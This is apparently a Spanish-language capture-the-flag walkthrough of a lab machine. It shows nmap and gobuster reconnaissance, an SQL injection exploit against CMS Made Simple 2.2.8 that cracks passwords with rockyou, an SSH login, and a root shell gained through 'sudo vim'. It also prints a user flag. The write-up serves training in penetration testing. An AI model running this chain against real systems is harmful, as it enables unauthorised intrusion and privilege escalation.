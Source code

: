 # Summary
- IP: 10.10.129.26
- Ports: 21,80,2222
- OS: Linux (Ubuntu)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  80 -> Apache httpd 2.4.18
	-  2222 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```


- Buscamos vulnerabilidades en las aplicaciones encontradas, ftp no nos da nada, la página no contiene nada relevante; hacemos escaneo de directorios con gobuster:

```
$gobuster dir -u http://10.10.129.26/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```


- Encontramos un directorio "simple", lo analizamos y encontramos una app web con su version, buscamos vulnerabilidades para la misma:

```
$searchsploit CMS Made Simple 2.2.8
```


- Encontramos una vulnerabilidad SQLi, exportamos la script de python y la ejecutamos

```
$python2.7 46635.py -u http://10.10.129.26/simple/ --crack -w /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
```


- Obtenemos credenciales e intentamos conectarnos por ssh:

```
ssh mitch@10.10.129.26 -p 2222
```


- Encontramos la user flag:
# USER FLAG: G00d j0b, keep up!

- Buscamos binarios con permisos de sudoers:

```
mitch@machine:/$sudo -l
```


- Vemos que podemos ejecutar como sudoer el binario "vim", el cual buscamos en gtfobins para poder escalar privilegios:
```
sudo vim -c ':!/bin/sh'
```

- Encontramos la root flag:
# ROOT FLAG: 
